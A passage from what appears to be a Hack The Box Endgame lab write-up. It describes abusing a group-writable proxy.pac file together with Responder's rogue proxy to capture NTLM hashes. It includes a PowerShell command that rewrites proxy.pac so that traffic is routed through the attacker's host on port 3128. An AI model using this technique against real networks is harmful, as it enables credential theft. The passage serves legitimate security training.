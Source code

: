 [![proxypac-icacls.png](/assets/images/htb/endgames/rpg/proxypac-icacls.png)](/assets/images/htb/endgames/rpg/proxypac-icacls.png)
{:.center-image}

There is this `proxy.pac` config which can be edited by the `ROUNDSFOT\Infra` group members (yamano is one of them). When using Responder with `-P` option, you can set it [to force authentication](https://github.com/lgandx/Responder/blob/master/Responder.py#L279) for the rogue proxy server. The proxy will be available at 0.0.0.0:3128.

[![proxypac-responder-config.png](/assets/images/htb/endgames/rpg/proxypac-responder-config.png)](/assets/images/htb/endgames/rpg/proxypac-responder-config.png)
{:.center-image}

[![proxypac-responder-src.png](/assets/images/htb/endgames/rpg/proxypac-responder-src.png)](/assets/images/htb/endgames/rpg/proxypac-responder-src.png)
{:.center-image}

I will launch Responder, edit the proxy.pac to point to my box on 3128/TCP and wait for the hashes:

```
PS > $proxy = 'function FindProxyForURL(url, host){ return "PROXY 10.14.14.37:3128; DIRECT"; }'
PS > Set-Content proxy.pac $proxy
PS > gc proxy.pac
```

[![proxypac-edit.png](/assets/images/htb/endgames/rpg/proxypac-edit.png)](/assets/images/htb/endgames/rpg/proxypac-edit.png)
{:.center-image}
